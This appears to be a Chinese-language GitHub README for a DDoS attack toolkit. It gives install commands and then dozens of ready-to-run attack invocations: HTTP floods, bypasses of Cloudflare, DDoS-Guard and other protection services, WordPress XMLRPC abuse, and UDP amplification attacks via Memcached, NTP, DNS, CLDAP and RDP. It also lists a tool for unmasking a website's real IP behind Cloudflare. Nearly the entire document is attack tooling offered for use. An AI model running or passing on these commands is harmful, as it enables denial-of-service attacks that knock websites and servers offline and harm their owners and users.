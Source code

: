 ### Ubuntu Docker 安装

	apt update -y && apt install curl -y && curl -fsSL https://test.docker.com -o test-docker.sh && sudo sh test-docker.sh

### ddos-layer7安装

	apt install git -y && git clone https://github.com/qq1521575701/ddos-layer7.git && cd ddos-layer7 && docker build -t ddos-layer7 . && docker run -itd --name ddos-layer7 --network host ddos-layer7:latest && cd .. && rm -rf ddos-layer7


### ddos-layer7容器

	docker exec -it ddos-layer7 /bin/bash

 
### ddos-layer7（代理）代理文件位置/root/files/proxies/

	python3 start.py GET url 0 1000 all.txt 500 600
 
	python3 start.py POST url 0 1000 all.txt 500 600
 
	python3 start.py OVH url 0 1000 all.txt 500 600
 
	python3 start.py RHEX url 0 1000 all.txt 500 600
 
	python3 start.py STOMP url 0 1000 all.txt 500 600
 
	python3 start.py STRESS url 0 1000 all.txt 500 600
 
	python3 start.py DYN url 0 1000 all.txt 500 600
 
	python3 start.py DOWNLOADER url 0 1000 all.txt 500 600
 
	python3 start.py SLOW url 0 1000 all.txt 500 600
 
	python3 start.py HEAD url 0 1000 all.txt 500 600
 
	python3 start.py NULL url 0 1000 all.txt 500 600
 
	python3 start.py COOKIE url 0 1000 all.txt 500 600
 
	python3 start.py PPS url 0 1000 all.txt 500 600
 
	python3 start.py EVEN url 0 1000 all.txt 500 600
 
	python3 start.py GSB url 0 1000 all.txt 500 600
 
	python3 start.py DGB url 0 1000 all.txt 500 600
 
	python3 start.py AVB url 0 1000 all.txt 500 600
 
	python3 start.py BOT url 0 1000 all.txt 500 600
 
	python3 start.py APACHE url 0 1000 all.txt 500 600
 
	python3 start.py XMLRPC url 0 1000 all.txt 500 600
 
	python3 start.py CFB url 0 1000 all.txt 500 600
 
	python3 start.py CFBUAM url 0 1000 all.txt 500 600
 
	python3 start.py BYPASS url 0 1000 all.txt 500 600
 
	python3 start.py BOMB url 5 1000 all.txt 500 600
 
	python3 start.py KILLER url 0 1000 all.txt 500 600
 
	python3 start.py TOR url 0 1000 all.txt 500 600
 

#### ddos-layer4（放大）反射文件位置/root/files

	python3 start.py MEM ip:port 1 120 meme.txt

	python3 start.py NTP ip:port 1 120 ntp.txt

	python3 start.py DNS ip:port 1 120 dns.txt

	python3 start.py CHAR ip:port 1 120 char.txt

	python3 start.py CLDAP ip:port 1 120 cldap.txt

	python3 start.py ARD ip:port 1 120 ard.txt

	python3 start.py RDP ip:port 1 120 rdp.txt


#### ddos-layer4（代理）代理文件位置/root/files/proxies/

	python3 start.py TCP ip:port 500 120 0 all.txt

	python3 start.py CPS ip:port 500 120 0 all.txt

	python3 start.py CONNECTION ip:port 500 120 0 all.txt

	python3 start.py MCBOT ip:port 500 120 0 all.txt

	python3 start.py MINECRAFT ip:port 500 120 0 all.txt

 
#### ddos-layer4（普通）

	python3 start.py UDP ip:port 500 120

	python3 start.py SYN ip:port 500 120

	python3 start.py ICMP ip:port 500 120

	python3 start.py VSE ip:port 500 120

	python3 start.py TS3 ip:port 500 120

	python3 start.py FIVEM ip:port 500 120

	python3 start.py MCPE ip:port 500 120




## Features And Methods

 * 💣 Layer7

   * <img src="https://img.icons8.com/cotton/344/domain.png" width="16" height="16" alt="get"> GET | GET 洪水
   * <img src="https://cdn0.iconfinder.com/data/icons/database-storage-5/60/server__database__fire__burn__safety-512.png" width="16" height="16" alt="post"> POST  | POST 洪水
   * <img src="https://static-00.iconduck.com/assets.00/ovh-icon-2048x2048-l4c3izvg.png" width="16" height="16" alt="ovh"> OVH | 绕过 OVH
   * <img src="https://cdn-icons-png.flaticon.com/512/1691/1691948.png" width="16" height="16" alt="ovh"> RHEX | 随机十六进制
   * <img src="https://cdn-icons-png.flaticon.com/512/4337/4337972.png" width="16" height="16" alt="ovh"> STOMP | 绕过 chk_captcha
   * <img src="https://cdn.iconscout.com/icon/premium/png-256-thumb/cyber-bullying-2557797-2152371.png" width="16" height="16" alt="stress"> STRESS | 发送带有高字节的 HTTP 数据包
   * <img src="https://pbs.twimg.com/profile_images/1351562987224641544/IKb4q_yd_400x400.jpg" width="16" height="16" alt="dyn"> DYN  | 一​​种使用随机子域的新方法
   * <img src="https://cdn-icons-png.flaticon.com/512/6991/6991643.png" width="16" height="16" alt="downloader"> DOWNLOADER | 一种缓慢读取数据的新方法
   * <img src="https://cdn2.iconfinder.com/data/icons/poison-and-venom-fill/160/loris2-512.png" width="16" height="16" alt="slow"> SLOW  | Slowlor 的旧 DDoS 方法
   * <img src="https://lyrahosting.com/wp-content/uploads/2020/06/ddos-how-work-icon.png" width="16" height="16" alt="head"> HEAD | https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/HEAD
   * <img src="https://img.icons8.com/plasticine/2x/null-symbol.png" width="16" height="16" alt="null"> NULL | Null UserAgent 和 ...
   * <img src="https://i.pinimg.com/originals/03/2e/7d/032e7d0755cd511c753bcb6035d44f68.png" width="16" height="16" alt="cookie"> COOKIE | 随机 Cookie PHP'if (isset($_COOKIE))'
   * <img src="https://cdn0.iconfinder.com/data/icons/dicticons-files-folders/32/office_pps-512.png" width="16" height="16" alt="pps"> PPS | 仅'GET / HTTP/1.1\r\n\r\n'
   * <img src="https://cdn3.iconfinder.com/data/icons/internet-security-14/48/DDoS_website_webpage_bomb_virus_protection-512.png" width="16" height="16" alt="even"> EVEN | GET 方法带有更多标头
   * <img src="https://iili.io/HU9BC74.png" width="16" height="16" alt="googleshield"> GSB | Google Project Shield 绕过
   * <img src="https://seeklogo.com/images/D/ddos-guard-logo-CFEFCA409C-seeklogo.com.png" width="16" height="16" alt="DDoSGuard"> DGB  | DDoS Guard 绕过
   * <img src="https://i.imgur.com/bGL8qfw.png" width="16" height="16" alt="ArvanCloud"> AVB | Arvan 云旁路
   * <img src="https://iili.io/HU9BC74.png" width="16" height="16" alt="Google bot"> BOT | 类似 Google 机器人
   * <img src="https://upload.wikimedia.org/wikipedia/commons/thumb/a/a8/Apache_HTTP_Server_Logo_%282016%29.svg/1000px-Apache_HTTP_Server_Logo_%282016%29.svg.png" width="16" height="16" alt="Apache Webserver"> APACHE  | Apache 漏洞
   * <img src="https://icon-library.com/images/icon-for-wordpress/icon-for-wordpress-16.jpg" width="16" height="16" alt="wordpress expliot"> XMLRPC | WP XMLRPC 漏洞 (添加 /xmlrpc.php)
   * <img src="https://techcrunch.com/wp-content/uploads/2019/06/J2LlHqT3qJl0bG9Alpgc-1-730x438.png?w=730" width="16" height="16" alt="CloudFlare"> CFB | CloudFlare 旁路
   * <img src="https://techcrunch.com/wp-content/uploads/2019/06/J2LlHqT3qJl0bG9Alpgc-1-730x438.png?w=730" width="16" height="16" alt="CloudFlare UnderAttack Mode"> CFBUAM | CloudFlare 攻击模式绕过
   * <img src="http://iclouddnsbypass.com/wp-content/uploads/2015/02/iCloudDNSBypassServer.ico" width="16" height="16" alt="bypass"> BYPASS | 绕过常规 AntiDDoS
   * <img src="https://cdn-icons-png.flaticon.com/512/905/905568.png" width="16" height="16" alt="bypass"> BOMB  | 使用 codesenberg/bombardier 绕过
   * 🔪 KILLER  | 运行多个线程来杀死目标
   * 🧅 TOR  | 绕过洋葱网站


* 🧨 Layer4: 
  * <img src="https://raw.githubusercontent.com/kgretzky/pwndrop/master/media/pwndrop-logo-512.png" width="16" height="16" alt="tcp"> TCP | TCP 洪水绕过
  * <img src="https://styles.redditmedia.com/t5_2rxmiq/styles/profileIcon_snoob94cdb09-c26c-4c24-bd0c-66238623cc22-headshot.png" width="16" height="16" alt="udp"> UDP | UDP 洪水绕过
  * <img src="https://cdn-icons-png.flaticon.com/512/1918/1918576.png" width="16" height="16" alt="syn"> SYN | SYN 洪水
  * <img src="https://cdn-icons-png.flaticon.com/512/1017/1017466.png" width="16" height="16" alt="cps"> CPS | 使用代理打开和关闭连接
  * <img src="https://icon-library.com/images/icon-ping/icon-ping-28.jpg" width="16" height="16" alt="icmp"> ICMP  | ICMP 回显请求洪水（第 3 层）
  * <img src="https://s6.uupload.ir/files/1059643_g8hp.png" width="16" height="16" alt="connection"> CONNECTION | 使用代理打开活动连接
  * <img src="https://ia803109.us.archive.org/27/items/source-engine-video-projects/source-engine-video-projects_itemimage.png" width="16" height="16" alt="vse"> VSE | 发送 Valve Source 引擎协议
  * <img src="https://mycrackfree.com/wp-content/uploads/2018/08/TeamSpeak-Server-9.png" width="16" height="16" alt="teamspeak 3"> TS3  | 发送 Teamspeak 3 状态 Ping 协议Protocol
  * <img src="https://cdn2.downdetector.com/static/uploads/logo/75ef9fcabc1abea8fce0ebd0236a4132710fcb2e.png" width="16" height="16" alt="fivem"> FIVEM | 发送 FiveM 状态 Ping 协议
  * <img src="https://cdn.iconscout.com/icon/free/png-512/redis-4-1175103.png" width="16" height="16" alt="mem"> MEM  | Memcached 放大
  * <img src="https://lyrahosting.com/wp-content/uploads/2020/06/ddos-attack-icon.png" width="16" height="16" alt="ntp"> NTP | NTP 放大
  * <img src="https://cdn-icons-png.flaticon.com/512/4712/4712139.png" width="16" height="16" alt="mcbot"> MCBOT  | Minecraft 机器人攻击
  * <img src="https://cdn.icon-icons.com/icons2/2699/PNG/512/minecraft_logo_icon_168974.png" width="16" height="16" alt="minecraft"> MINECRAFT  | Minecraft 状态 Ping 协议
  * <img src="https://cdn.icon-icons.com/icons2/2699/PNG/512/minecraft_logo_icon_168974.png" width="16" height="16" alt="minecraft pe"> MCPE | Minecraft PE 状态 Ping 协议
  * <img src="https://cdn-icons-png.flaticon.com/512/2653/2653461.png" width="16" height="16" alt="dns"> DNS  | DNS 放大
  * <img src="https://lyrahosting.com/wp-content/uploads/2020/06/ddos-attack-icon.png" width="16" height="16" alt="chargen"> CHAR  | Chargen 放大
  * <img src="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcRct5OvjSCpUftyRMm3evgdPOa-f8LbwJFO-A&usqp=CAU" width="16" height="16" alt="cldap"> CLDAP  | Cldap 放大
  * <img src="https://help.apple.com/assets/6171BD2C588E52621824409D/6171BD2D588E5262182440A4/en_US/8b631353e070420f47530bf95f1a7fae.png" width="16" height="16" alt="ard"> ARD | Apple 远程桌面放大
  * <img src="https://www.tenforums.com/geek/gars/images/2/types/thumb__emote__esktop__onnection.png" width="16" height="16" alt="rdp"> RDP | 远程桌面协议放大

* ⚙️ 工具 - 运行
`
python3 start.py tools
`
  * 🌟 CFIP  | 查找由 Cloudflare 提供支持的网站的真实 IP 地址
  * 🔪 DNS  | 显示网站的 DNS 记录
  * 📍  TSSRV  | TeamSpeak SRV 解析器
  * ⚠  PING | PING 服务器
  * 📌 CHECK  | 检查网站状态
  * 😎 DSTAT  | 显示已接收的字节数、已发送的字节数及其数量

* 🎩 Other
  * ❌ STOP  | 停止一切攻击
  * 🌠 TOOLS | 控制台工具
  * 👑 HELP | 显示使用脚本
